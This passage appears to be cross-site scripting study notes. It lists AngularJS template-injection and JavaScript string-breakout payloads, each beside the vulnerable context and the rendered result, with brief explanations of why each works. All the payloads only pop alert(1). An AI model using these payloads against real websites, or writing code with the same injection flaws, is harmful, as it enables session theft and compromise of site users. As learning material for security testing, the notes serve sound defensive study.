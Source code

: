 Context:
```html
<h1 ng-app="" class="ng-scope">0 search results for '{HERE}'</h1>
```
Exploit:
```
{{$on.constructor('alert(1)')()}}
```
Result:
```html
<h1 ng-app="" class="ng-scope">0 search results for '{{$on.constructor('alert(1)')()}}'</h1>
```

## XSS into JavaScript

### Reflected XSS into a JavaScript string with single quote and backslash escaped
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
</script><script>alert(1)</script>
```
Result:
```js
var searchTerms = '</script>
<script>alert(1)</script>
';
```
*The reason this works is that the browser first performs HTML parsing to identify the page elements including blocks
of script, and only later performs JavaScript parsing to understand and execute the embedded scripts.*

### Reflected XSS into a JavaScript string with angle brackets HTML encoded
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
';alert(1);//
```
Result:
```js
var searchTerms = '';alert(1);//';
```

### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
\';alert(1);// 
```
Result:
```js
var searchTerms = '\\';alert(1);// ';
```
Trick is that the \ is also escaped!
